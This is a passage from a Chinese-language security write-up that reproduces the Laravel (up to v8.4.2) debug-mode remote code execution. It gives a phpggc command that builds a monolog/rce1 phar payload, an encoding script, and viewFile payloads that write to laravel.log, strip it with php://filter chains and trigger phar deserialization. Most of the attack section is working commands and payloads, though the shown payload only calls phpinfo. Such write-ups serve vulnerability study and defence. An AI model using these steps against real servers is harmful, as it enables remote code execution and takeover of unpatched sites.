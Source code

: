 在 laravel 的依赖里面找一条能够 rce 的链，如`monolog/rce1`。生成对应的 phar 文件，并将 phar 文件 base64 编码。

```
php -d'phar.readonly=0' ./phpggc monolog/rce1 call_user_func phpinfo --phar phar -o php://output | base64 -w0

PD9waHAgX19IQUxUX0NPTV ... gAAAEdCTUI=


```

再将该 base64 编码后的字符进行`convert.quoted-printable-encode`编码

```
Python 3.9.0 (default, Nov 21 2020, 14:01:50)
[Clang 12.0.0 (clang-1200.0.32.27)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> s = 'PD9waHAgX19IQUxUX0NPTV ... gAAAEdCTUI='
>>> ''.join(["=" + hex(ord(i))[2:] + "=00" for i in s]).upper()
'=50=00=44=00=39= ... 00=55=00=49=00=3D=00'
>>>


```

#### 写入到 log 文件

```
viewFile: =50=00=44=00=39= ... 00=55=00=49=00=3D=00

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181459-5b7b0cc4-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181459-5b7b0cc4-5651-1.jpg)

#### 清空干扰字符

```
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181515-6564bfaa-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181515-6564bfaa-5651-1.jpg)

#### 触发 phar 反序列化

```
viewFile: phar:///Applications/MxSrvs/www/laravel/storage/logs/laravel.log/test.txt

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181531-6e7dac3c-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181531-6e7dac3c-5651-1.jpg)

最后
--

至此整个漏洞就都分析复现完了，原文章中作者没有把一些坑点讲出来，导致复现的时候出现了很多非预期的 bug。但是整体的思路还是非常厉害的。  
除此之外，作者在最后还提到了一种利用 ftp 被动模式攻击 php-fpm 的方法，可以通过编写一个恶意的 ftp 服务端来实现。也是一种十分开脑洞的方法。

参考链接：  
[LARAVEL <= V8.4.2 DEBUG MODE: REMOTE CODE EXECUTION](https://www.ambionics.io/blog/laravel-debug-rce)